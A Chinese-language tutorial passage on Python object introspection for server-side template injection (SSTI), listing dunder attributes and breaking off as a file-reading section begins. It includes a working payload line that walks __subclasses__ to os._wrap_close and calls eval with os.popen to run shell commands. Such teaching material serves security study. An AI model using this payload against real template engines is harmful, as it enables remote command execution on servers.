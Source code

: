 ## 继承关系

```python
class A:pass
class B(A):pass
class C(B):pass
class D(B):pass
c=C()
print(c.__class__) #<class '__main__.C'>
print(c.__class__.__base__) #<class '__main__.B'>
print(c.__class__.base__.__base__) #<class '__main__.A'>
print(c.__class__.__mro__) #(<class '__main__.C'>, <class '__main__.B'>, <class '__main__.A'>, <class 'object'>)
print(c.__class__.__base__.__subclasses__()) #[<class '__main__.C'>, <class '__main__.D'>]
print(c.__class__.__base__.__subclasses__()[1])#<class '__main__.D'>
```

## 魔术方法

_\_class__:查看当前类型的所属对象

_\_base__:查看当前对象的父类

_\_mro__::查看当前对象的所有父类

_\_subclassses__()：查看当前父类下的所有子类

_\_subclassses__()[1]：查看当前父类下的第二个子类，0表示第一个

_\_init__:查看是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中，如果出现wrapper字眼，说明没有重载

_\_globals__:返回当前对象的全部全局变量，查看可以使用的函数

_\_builtins__:提供对Python的所有内置标识符的直接访问

eval()计算字符串表达式的值

popen()：执行一个shell以运行命令来开启一个进程

```python
"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")
```

117是os._wrap_close

# 4.SSTI常用注入模板利用

## 文件读取

### 1._frozen_importlib_external.FileLoader

文件读取类名：_frozen_importlib_external.FileLoader

查找子类脚本
